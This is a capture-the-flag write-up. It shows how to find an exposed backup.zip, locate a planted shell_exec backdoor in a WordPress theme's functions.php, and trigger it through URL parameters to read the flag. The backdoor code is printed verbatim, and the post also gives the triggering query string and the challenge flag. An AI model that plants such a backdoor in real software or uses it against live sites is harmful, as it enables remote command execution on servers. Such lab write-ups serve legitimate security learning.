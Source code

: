 ## nondiff-backdoor

The description tells us there is a backup.zip file somewhere in the public path, so we do the most logical thing, add `/backup.zip` to the URL. Oh, who would've guessed - the zip file gets downloaded. We know that the website is built using PHP, and one of the most exploitable PHP functions is `shell_exec()`, which returns a command's output. Let's search for that among many files the backup folder contains:

```
cd backup
grep -r "shell_exec("
```

First instance of the function is in `wp-content/themes/twentytwentytwo/functions.php`, that's our next destination. The curious thing we see here is this block of code:

```
function sentimental_function() { 
  If ($_GET['welldone'] == 'knockknock') { 
	echo shell_exec($_GET['shazam']); 
  }
}
```

So, we modify the URL by adding the following:

```
?welldone=knockknock&shazam=ls
```

And it displays contents of the current folder. Then, we swap out `ls` for `cat flag.php` and check the page source.

_CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}_